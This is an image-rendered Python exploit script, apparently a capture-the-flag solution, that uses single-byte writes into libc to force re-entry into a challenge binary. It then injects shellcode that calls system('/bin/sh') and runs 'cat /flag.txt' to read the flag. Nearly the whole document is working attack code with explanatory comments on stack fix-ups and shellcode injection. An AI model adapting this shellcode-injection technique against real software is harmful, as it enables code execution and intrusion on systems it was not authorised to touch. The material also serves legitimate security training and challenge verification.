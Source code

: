 ```python
IO_UNBUFFER_ALL_OFFSET = 0x96971
IO_PROC_OPEN_ADD_RSP_OFFSET = 0x87459

write_byte(io, libc.address + IO_PROC_OPEN_ADD_RSP_OFFSET, 0x90)
write_byte(io, libc.address + IO_UNBUFFER_ALL_OFFSET, 0x0b)
check_reentry(io)

# 2. Stabilizing reentry
# Now that we reentered, we have to stabilize it.
# We've consumed the only _start on the stack, but due to
# _start `call`ing into _libc_start_main, there is a return
# address on the stack - but it is on a different offset and
# unfortunately points _after_ the main call to a `hlt`.
# -> use the next two writes to change the add rsp offset to the return address
#    and to fix the return address so that it is at the start again.
info("Stabilizing reentry...")
STACK_RETURN_ADDR = stack_leak + (0x7fffffffc528 - 0x7fffffffc3f0)

write_byte(io, libc.address + IO_PROC_OPEN_ADD_RSP_OFFSET, 0xb8)
write_byte(io, STACK_RETURN_ADDR, 0x80)
check_reentry(io)

# 3. WRITING
# Now we can finally write our shellcode into the process
# However, as we always have to fix the return address, only one byte can be
# written
# The stack return address also decrements by 0x10 every reentry.
info("Injecting shell shellcode...")
code = asm(f"""
    mov rdi, {next(libc.search(b"/bin/sh"))}
    mov rax, {libc.symbols["system"]}
    call rax
""")
info(hexdump(code))
CHALL_START_RET_ADDR = exe.symbols["_start"] + 0x25

for i in range(len(code)):
    info(f" - {i} / {len(code)}")
    STACK_RETURN_ADDR -= 0x10

    write_byte(io, CHALL_START_RET_ADDR + i, code[i])
    write_byte(io, STACK_RETURN_ADDR, 0x80)
    check_reentry(io)


# Now, we just have to go let the program pass "normally"
# It will return to the shellcode and give us a shell
# As address 0x0 is invalid, we cannot seek here.
# There are no checks, so its a fine no-op
info("Entering shell...")
write_byte(io, 0, 0)
write_byte(io, 0, 0)

sleep(0.2)
io.sendline(b"cat /flag.txt && exit")

f = find_flag(io.recvall())
if f is not None:
    log.success(f)
    exit(0)
else:
    # Remember to return nonzero if something failed
    exit(1)
```